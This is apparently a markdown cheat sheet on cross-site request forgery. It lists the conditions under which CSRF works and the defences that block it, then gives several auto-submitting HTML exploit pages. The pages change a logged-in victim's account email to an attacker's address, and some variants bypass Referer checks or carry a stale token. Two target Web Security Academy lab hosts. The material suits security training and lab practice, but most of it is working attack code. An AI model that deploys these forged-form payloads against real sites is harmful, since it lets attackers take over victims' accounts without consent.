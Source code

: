 ## Cross-site request forgery

## CSRF vulnerabilities work when:

- User is Authenticated;
- SameSite=None - allows them to be sent on cross-site requests;

### CSRF does not work when:

- CSRF Tokens are Present;
- Same-Site Cookies are Enabled: With SameSite cookie policy (e.g., SameSite=Lax or Strict), cookies are only sent on requests originating from the same domain;
- Referrer Check: Some sites check the Referer header to confirm requests are from their own pages;
- Origin header (sometimes) - If the site rejects requests without them, it likely relies on header-based protection.

### Standard GET CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF with new inputs:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" />
<input type="hidden" name="csrf" value="SDGDSGHRTG$rewt65RT$T4t45" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### POST CSRF with NoREFFER header:
```
<html>
<head>
<title>CSRF Exploit </title>
  <meta name="referrer" content="no-referrer">
</head>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@err.net" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```


```
<html>
<head>
  <title>CSRF Exploit </title>
</head>
<script>history.pushState("", "", "/?0a2b00a103d9639280702748000e0044.web-security-academy.net")</script>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwn234@gmail.com" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
